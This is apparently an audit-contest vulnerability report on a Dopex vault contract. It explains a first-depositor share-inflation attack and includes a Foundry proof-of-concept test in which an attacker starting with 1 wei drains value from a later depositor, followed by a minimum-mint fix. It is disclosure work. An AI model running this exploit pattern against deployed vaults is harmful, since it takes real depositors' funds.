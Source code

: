 # A malicious early depositor can manipulate the LP-Token price per share to take an unfair share of future user deposits

## Lines of code
- https://github.com/code-423n4/2023-08-dopex/blob/main/contracts/perp-vault/PerpetualAtlanticVaultLP.sol#L118
- https://github.com/code-423n4/2023-08-dopex/blob/main/contracts/perp-vault/PerpetualAtlanticVaultLP.sol#L283

## Vulnerability details
## Impact
A malicious early depositor can profit from future depositors' deposits. While the late depositors will lose part of their funds to the attacker.

## Vulnerability Details
The first depositor can buy a small number of shares and next he should wait until owner settle an options through RdpxCore so it will result in calling addRDPX in PerpetualAtlanticVaultLP by transfering rdpxTokens into it and updating _rdpxCollateral, as rdpx Token has 18 decimals https://arbiscan.io/token/0x32eb7902d4134bf98a28b963d26de779af92a212 even small amount of rdpx token result in giving a higher totalVaultCollateral() so then it calculates assets.mulDivDown(supply,totalVaultCollateral); then it will make shares very expensive for the next depositors,

POC
1. copy this test into  `/tests/perp-vault/Integration.t.sol`
2. Run the test `forge test --match-path  ./tests/perp-vault/Integration.t.sol   -vvvv`

```solidity
 function test_second_user_loss_share() external {
  //=============================
  address  hecer  = makeAddr("Hecer");
  address  investor = makeAddr("investor");
  //=============================

 setApprovals(hecer);
 setApprovals(investor);

    mintWeth(1 wei, hecer); // hecker starts with 1 wei 🐱‍👤
    mintWeth(20 ether, investor);
 
 
 console.log("WETH Balance Of attacker before " , weth.balanceOf(hecer));          
   console.log("RDPX Balance Of attacker before " ,rdpx.balanceOf(hecer));
    deposit(1 wei, hecer);

    //===============================================================================================================
    /* This step isn't possible like this owner should call  `settle` in RdpxV2Core , but for the simplicity lets say
        10 rdpx tokens transfered into vaultLP   after hecer deposit 1 wei of weth and get 1 share 
    */ 
    deal(address(rdpx),address(vaultLp),10 ether);  // 10 tokens because rpdx 18 decimals // 0x32eb7902d4134bf98a28b963d26de779af92a212 
    vm.prank(address(vault));
    vaultLp.addRdpx(10 ether);
//===============================================================================================================
//   Then the investor deposits  20 ether 
    deposit(20 ether, investor);
    
    uint256 userBalance = vaultLp.balanceOf(hecer);
    uint256 userBalance2 = vaultLp.balanceOf(investor);
    console.log("Lp-balance Of attacker : %s share " , userBalance);
    console.log("Lp-balance Of investor : %s share " , userBalance2);
          // (uint asset , uint rdpxA)= vaultLp.redeemPreview(uint256(1));
    vm.prank(hecer);
    vaultLp.redeem(uint256(1),hecer,hecer);

   console.log("WETH Balance Of attacker after" , weth.balanceOf(hecer));  //Starting with 1wei attacker🐱‍👤 endUp with 2 wrapped ether ;    
   console.log("RDPX Balance Of attacker after" ,rdpx.balanceOf(hecer));        
  }
```

## Tool used
Manual Review , Foundry

## Recommendation
Consider requiring a minimal amount of share tokens to be minted for the first minter

### Assessed type
Token-Transfer